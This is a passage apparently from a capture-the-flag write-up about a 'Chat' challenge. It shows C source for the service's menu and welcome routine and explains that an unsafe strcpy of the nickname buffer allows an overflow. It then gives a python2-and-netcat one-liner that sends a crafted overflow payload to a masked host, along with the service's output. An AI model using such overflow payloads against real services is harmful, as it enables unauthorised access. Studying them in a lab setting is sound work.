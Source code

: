 ```c
        printf(">> ");
        scanf("%d", &choice);
        while(getchar() != '\n');
        printf("\n\n");

        switch (choice){
            case 1: start_chat(user); break;
            case 2: print_user(user); break;
            // ...
        }
        choice = 0;
    }
}

void welcome(char *some_info){
    char token[10];
    char nick[12] = "";
    printf("Hello, guest!\n");
    printf("Enter your token: ");
    scanf("%9s", token);

    // ...

    printf("Enter your nick: ");
    scanf("%11s", nick);

    struct user *user = create_user(nick, token);

    // ...
    main_menu(user);
}

int main(int argc, char* argv[]){
    // ...
    welcome(argv[1]);
    // ...
}
```

Since the unsecure `strcpy` was used to move the nick's buffer around, it was vulnerable to overflows - _the token had to be kept intact to identify different triggers of the **Chat** series_:

```text
$ (python2 -c 'print "6MsmrUmPi"+"A"*10+"\x01"'; cat) | nc XXX.XXXXXXXXX.XX NNNN

Hello, guest!
Enter your token: Enter your nick:
Welcome to our chat!

Select command:
    1) Join chat
    2) See user information
    3) Quit
```
